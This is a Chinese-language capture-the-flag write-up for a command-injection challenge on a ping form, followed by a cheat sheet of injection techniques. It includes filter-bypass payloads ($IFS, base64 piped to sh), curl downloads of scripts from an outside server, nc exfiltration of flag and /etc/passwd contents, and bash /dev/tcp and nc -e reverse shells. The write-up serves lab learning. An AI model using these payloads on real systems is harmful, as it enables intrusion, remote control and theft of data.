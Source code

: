 ```yaml
---
Author: SuperJason
Date: 2020-12-25
---
```


## flag
n1book{6fa82809179d7f19c67259aa285a7729}

## 思路
1. 访问环境，测试命令`127.0.0.1`  
![](./images/cmd-1.png)
2. 接着测试`127.0.0.1 && ls`，这里浪费了一点时间，以为`&&`不能让`ls`命令执行，其实是因为浏览器将我们输入的`&&`转码了，导致我们的输入其实变成了`127.0.0.1+%26%26+ls`  
   **建议以后做注入题目时，直接用burpsuite，防止注入的数据被浏览器转码**  
![](./images/cmd-2.png)  
![](./images/cmd-3.png)
3. 这里还有一个问题，虽然ip ping成功，但后面的命令不一定执行了。接着用`sleep 5`进行延时注入，发现`&&`命令并不能让后面的sleep命令执行，接着测试`%0a`连接符，可以让后面的sleep命令执行
4. 开始猜测flag的位置，`flag`、`flag.php`、`flag.txt`等，没有找到明显的flag文件。由于没有命令执行的回显，如何找到flag文件并且将文件数据传出来是个问题，考虑`{flag file} | nc {your_server_ip port}`将数据传出来，但`|`和`:`符号被判定为恶意字符。  
**如果没有服务器，可以用buuctf开小号，在basic/Linux labs上启动一个内网服务器**  
5. `>`没有被过滤，可以从服务器下载恶意脚本到本地并执行。这里使用`curl {your_server_ip}/ctf.sh`，然后准备给sh文件加执行权限，却无法添加，最后怀疑当前用户在当前目录没有保存文件的权限。  
![](./images/cmd-4.png)  
![](./images/cmd-5.png)
6. 于是将`ctf.sh`保存到`tmp`目录下。添加可执行权限。  
![](./images/cmd-6.png)  
![](./images/cmd-7.png)
7. 这里其实传了两次.sh文件，第一次的文件内容为`ls  | nc {your_server_ip port}`，得到当前目录下的文件列表，发现存在`/FLAG`文件，第二次的文件内容为`cat /FLAG | nc {your_server_ip port}`，将`/FLAG`文件内容传出来。  
8. 在服务器上监听本地端口`nc -lvp 8888`，这里我的是8888。然后执行`ctf.sh`，得到回传的数据。  
![](./images/cmd-8.png)  
![](./images/cmd-9.png)

## 总结
命令执行主要是通过特殊字符让本不该执行的命令执行。常用的特殊字符有
- 转义符  
  `^`、`\`、`&`
- 连接符  
  `&&`、`||`、`%0a`、`%0d`、`;`、`$()`
- 注释符号
  `#`、`:: ` 

### 进一步的扩宽一下难度
1. cmd可以会过滤空格，可以用其他字符绕过
- %09、%0b、%0c、$IFS$9  
2. 黑名单绕过  
- 字符串拼接，`a=c;b=at;c=ag;d=fl;$a$b ${d}${c}`或`a=c;b=at;c=ag;d=fl;$a$b $d$c`为cat flag
- 字符串截取，substr
3. `nc、curl`命令的使用，`>、|`重定向符的使用
4. 常用反弹shell
- 攻击者服务器监听8888端口，nc -lvp 8888
- 受害者1 `bash -i >& /dev/tcp/{server_ip}/8888 0>&1`
- 受害者2 `nc -e /bin/sh {server_ip} 8888`
5. 将反引号内命令的输出作为输入执行
```
cat$IFS$9`ls`
```
6. 过滤bash用sh执行,base64解码，`cat flag.php`为`Y2F0IGZsYWcucGhw`
```
echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh
```
## 反弹shell相关
1. 读取linux文件 
   ```curl -F "x=`cat /etc/passwd`" http://{your_vps}```
2. 反弹shell
   attack  `nc -lvp 2333`
   target  `bash -i >& /dev/tcp/{your_vps_ip}/2333 0>&1`
   
3. base64反弹shell
   target  `echo {base64encode_shell}|base64 -d|bash`
  